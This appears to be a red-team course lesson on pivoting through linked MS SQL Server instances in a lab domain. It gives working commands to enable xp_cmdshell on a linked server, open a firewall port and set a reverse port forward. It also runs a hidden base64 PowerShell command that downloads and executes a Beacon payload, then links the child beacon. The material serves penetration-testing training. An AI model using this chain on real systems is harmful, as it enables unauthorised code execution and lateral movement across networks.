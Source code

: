 SQL Servers have a concept called "links", which allows a database instance to access data from an external source.  MS SQL supports multiple sources, including other MS SQL Servers.  These can also be practically anywhere - including other domains, forests or in the cloud.

We can discover any links that the current instance has:
```sql
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3cf/9ba/acf/link.png)

  

This shows a link to **sql-1.cyberbotic.io** which we can query using _OpenQuery_:
```sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

  The use of double and single quotes is important when using OpenQuery.

We can also check the xp_cmdshell status.
```sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```
  

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```sql
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

  The square braces are required.

  

Manually querying databases to find links can be cumbersome and time-consuming, so you can also use `Get-SQLServerLinkCrawl` to automatically crawl all available links.
```
beacon> powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"

Version     : SQL Server 2019 
Instance    : SQL-2
CustomQuery : 
Sysadmin    : 1
Path        : {SQL-2}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2019 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SQL-2, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       :
```
  

This output shows that the link from SQL-2 to SQL-1 is configured with a local 'sa' account, and that it has sysadmin privileges on the remote server.

To execute a Beacon on SQL-1, we can pretty much repeat the same steps as previously.  However, note that SQL-1 may only be able to talk to SQL-2 and not to WKSTN-2 or any other machine in the DEV domain.
```
beacon> run hostname
sql-2

beacon> getuid
[*] You are DEV\mssql_svc (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```
  

Because of all of the additional quotes needed for OpenQuery, it's easier to use an encoded command.
```sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
```

  The inclusion of a benign statement at the beginning of the query is required for xp_cmdshell to trigger.

  
```
beacon> link sql-1.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.120.25
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/066/c4e/679/sql-1-beacon.png)